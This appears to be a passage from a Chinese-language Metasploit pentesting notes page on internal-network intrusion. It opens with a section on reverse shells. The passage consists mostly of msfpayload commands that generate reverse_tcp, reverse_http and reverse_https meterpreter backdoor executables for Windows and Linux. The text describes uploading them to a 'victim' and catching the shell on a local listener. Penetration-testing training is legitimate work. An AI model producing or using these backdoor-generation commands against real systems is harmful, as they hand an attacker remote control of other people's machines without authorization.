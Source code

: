 # metasploit渗透测试笔记(内网渗透篇)

0x01 reverse the shell
----------------------

* * *

### File

通常做法是使用msfpayload生成一个backdoor.exe然后上传到目标机器执行。本地监听即可获得meterpreter shell。

```
reverse_tcp/http/https => exe => victim => shell

```

**reverse_tcp**

windows:

```
msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe

```

![enter image description here](http://drops.javaweb.org/uploads/images/f02f5dd3e3461d9ab734e32dd46cb0acc1682428.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/c47834b60bc073ce0fc98a127de7fb926a1c6090.jpg)

Linux(x86)

```
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell

```

![enter image description here](http://drops.javaweb.org/uploads/images/c6da8a5a4287bf9aedbbf09eb4c9ee3a3670f269.jpg)

**reverse_http**

```
msfpayload windows/meterpreter/reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe

```

![enter image description here](http://drops.javaweb.org/uploads/images/eba5fb48cb4c97bc80149b055516d06ebdc817e6.jpg)

**reverse_https**

```
msfpayload windows/meterpreter/reverse_https LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe

```
